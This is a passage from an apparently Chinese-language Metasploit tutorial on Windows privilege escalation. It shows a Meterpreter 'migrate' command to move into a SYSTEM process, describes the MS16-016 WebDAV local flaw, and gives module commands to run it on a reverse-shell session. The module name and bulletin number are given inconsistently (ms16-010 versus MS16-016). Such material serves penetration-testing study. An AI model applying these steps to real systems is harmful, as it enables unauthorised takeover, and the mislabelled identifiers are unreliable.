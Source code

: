 

下面我们可以将当前会话迁移到SYSTEM权限进行的进程，使用migrate命令进行迁移

```
migrate  2916
```

![image-20210811164111199](msf提权.assets/image-20210811164111199.png)



此时的权限就应该是GOD/Administrator域管理员权限

![image-20210811164318033](msf提权.assets/image-20210811164318033.png)

#### 利用ms16-010溢出漏洞进行提权

```
MS16-016这个漏洞是由于Windows中的WebDAV未正确处理WebDAV客户端发送的信息导致的。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。
此漏洞存在于在：
Windows Vista SP2、Windows Server 2008 x86 & x64、Windows Server 2008 R2 x64、Windows 7 x86 & x64、Windows 8.1 x86 & x64。
系统中提升权限至系统权限，以下系统中导致系统拒绝服务（蓝屏）：
Windows Server 2012、Windows Server 2012 R2、Windows RT 8.1、Windows 10
```



当我们反弹目标站点的shell后，可以利用ms16-016模块进行提权

```
use    exploit/windows/local/ms16_010_webdav    ###选择ms16_016模块

set    session   1                              ##选定之前反弹shell的会话
```
